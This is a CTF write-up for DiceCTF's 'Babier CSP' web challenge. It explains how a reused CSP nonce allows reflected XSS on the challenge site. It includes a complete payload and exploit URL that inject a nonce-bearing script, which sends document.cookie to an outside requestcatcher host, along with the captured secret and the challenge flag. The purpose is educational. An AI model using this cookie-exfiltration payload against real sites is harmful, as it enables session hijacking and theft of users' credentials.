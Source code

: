 # DiceCTF-Writeup
# Babier CSP Challenge by notdeghost
[TL;DR at the bottom](#tldr)
## Getting XSS
When you visit the [challenge website](https://babier-csp.dicec.tf/) you are welcomed by a link with the name 'View Fruit'.
When clicked, it adds the get paramater ?name to the url with the value of a random Fruit.

The `name` value is just echoed back into the sites html. The challenge description also tells you, that your objective is to steal the admins
cookies which greatly hints towards a cross site scripting attack (XSS) -- So let's do that!

When you try to access `<site>?name=<script>alert(1)</script>` , nothing happens though. If you have a look at the main sites html using burp to intercept to
the request, you see that, the "View Fruit" link works with javascript and it has a nonce value set!

![Burp request intercept](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/burp_babier_csp.png)

Now let's add this nonce to our payload:
`https://babier-csp.dicec.tf/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">alert(1)</script>`
(From now on I will just show you the payload, not the full url)

An alert box pops up and the XSS worked!

## How to steal the Cookie

This is the part I struggled with.
The main idea is to add the cookies (found in `document.cookie`) to a get request to a service you can inspect the requests arriving.
I decided to go with [requestcatcher](https://requestcatcher.com/).
If we try to fetch a get request out of the browsers debug console from the target website to our bin, nothing arrives and fetch returns "rejected".

Now was the time I had a look into the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) (content security policy), which from my understanding tells the browser who it may make get requests to out of the websites context.

For the challenge website this header is set to following:
`Content-Security-Policy: default-src none; script-src 'nonce-LRGWAXOY98Es0zz0QOVmag==';`

This means first disallow every outgoing request and only allow requests for a script source, if the script has the nonce value = <nonce-value> set.<br>
([Tool for checking CSP'S](https://csp-evaluator.withgoogle.com/))<br>
Using base tags would have been another option to exploit this.<br>

So we may fetch a script source to where ever we want to!

```html
</h1>                                             <= close open h1 tag from site html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">         <= open script tag with nonce value so it executes
var head=document.getElementsByTagName('head')[0];<= get a reference to the html head element on the page
var script= document.createElement('script');     <= create a new script tag
script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie))); <= setting the new script-tags src to our requestcatcher
                                                                                                          with the cookies appended as a get parameter
script.nonce="LRGWAXOY98Es0zz0QOVmag==";          <= setting the new script tag`s nonce so it will execute too
head.appendChild(script);                         <= finally appending it to the documents head, which will automatically execute it
</script>
</h1>
```

When the our new script tag is then executed, it want's to and is allowed to request it's "source" which in fact is our requestbin and we after we send the following link to the bot, a GET request will pop up in our bin.
Link: `https://babier-csp.dicec.tf?name=</h1><script nonce="LRGWAXOY98Es0zz0QOVmag==" >var head=document.getElementsByTagName('head')[0]; var script= document.createElement('script');script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie)));script.nonce="LRGWAXOY98Es0zz0QOVmag==";head.appendChild(script);</script></h1>`

The incoming request:
![Request](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/request_catcher_request.png)

So the GET request we caught 
`GET /?flag=%22secret=4b36b1b8e47f761263796b1defd80745%22 HTTP/1.1`
reveals "4b36b1b8e47f761263796b1defd80745" to be our token. 

If we have a quick look into the index.js source code we could download from the diceCTF website, this part 

```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
reveals how to move on.
Let's plug our token into the url like so `/4b36b1b8e47f761263796b1defd80745`

The new pages source code:
```

I'm glad you made it here, there's a flag!

<b>dice{web_1s_a_stat3_0f_grac3_857720}</b>

If you want more CSP, you should try Adult CSP.

```
Hey!
`dice{web_1s_a_stat3_0f_grac3_857720}` is our flag!
<br>

## TL;DR
Add nonce value to the script tag and fetch script src with cookie appended to circumvent the CSP.
<br>

Thanks for reading and hope you learned something new,<br>
LightStack<br>




